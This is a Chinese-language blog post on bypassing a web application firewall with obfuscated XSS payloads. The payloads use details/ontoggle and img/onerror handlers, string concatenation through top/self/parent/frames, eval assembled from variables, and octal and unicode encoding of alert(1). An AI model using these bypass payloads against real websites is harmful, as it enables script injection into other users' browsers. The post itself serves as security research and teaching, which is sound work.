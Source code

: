 ## 前言
- - -
对于我这个菜鸟来说，我通过谷歌百度学习到很多前辈的资料，甚至每句话都是他的指导，我也很感激前辈的为我们铺设的道路，让我们更快的成长起来。我也乐于分享，可能有些知识点过于单调或者久远，请见谅。

## waf
- - -
前几天花了10买了一个月的服务器，换个waf来测试。
![1](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xeuqs6nwj30g60cgdge.jpg)   

### Test

遗漏标签就不测试了，上一篇[水文](https://www.anquanke.com/post/id/176185)的分享的标签也可以过，不信找几个试试= =

好吧非常打脸，拦截了。

![2](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xf5z6pwcj30uj0590t6.jpg)

然而换个prompt()函数???免费版当然是这样的啦，高级服务不仅我买不起，还绕不过啊，而且我不是真正的站长，规则我也不会设啊，总之就是这也不会那也不会。

![3](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xf9uioa9j30uj094wf8.jpg)

![4](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xff076fvj30c80c874l.jpg)

### Top属性类似的补充
- - -
还记得上篇的top属性嘛

![5](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xfxfayjoj30kg04ot8n.jpg)

实际上可以利用的还有好几个，看到这里各位是否get到什么了。

![6](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xju6slwuj30ub06raac.jpg)

我们可以利用的类似拼接的对象又多了几个，例如：
```
<details open ontoggle=self['al'%2B'ert'](1) >
<details open ontoggle=parent['al'%2B'ert'](1) >
<details open ontoggle=frames['al'%2B'ert'](1) >
<details open ontoggle=content['al'%2B'ert'](1) >
```
这些都可以绕过waf，总结起来有 `top` `self` `parent` `frames` `content` `windiow`，无疑`top`是最短的，所谓短小精悍，这里借用PKAV的一张ppt。

![7](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xkryc227j30fp073782.jpg)

### 俩个例子
- - -
**例1**
```html
<img src=1 alt=al lang=ert onerror=top[alt%2blang](0)>
```
这个例子很巧妙，将`alt`和`lang`属性分别赋值合并起来就是`alert`，并在top属性内将2个属性相加。


**例2**
```html
 <details open ontoggle=top[a='al',b='ev',b%2ba]('alert(1)')>
```
在top属性内添加2个变量，并赋值构造eval，然后执行alert(1)

测试下，拦截了。
![8](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xodipv2ej30uj05hmxm.jpg)

其实waf，拦截的是alert这个关键字，换个`prompt()`函数就过了

![9](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xoh9uty6j30uj086q3n.jpg)

也可以选择将`alert(1)`编码，因为有eval存在啊，直接拿来用

```
<details open ontoggle=top[a='al',b='ev',b%2ba]('\141\154\145\162\164\50\61\51')>
<details open ontoggle=top[a='al',b='ev',b%2ba]('\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029')>
```

![10](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xom9zf77j30uj097mxz.jpg)

setTimeout()函数也是没问题的，毕竟也能执行代码。
```
<details open ontoggle=top[a='meout',b='setTi',b%2ba]('\141\154\145\162\164\50\61\51')>
```


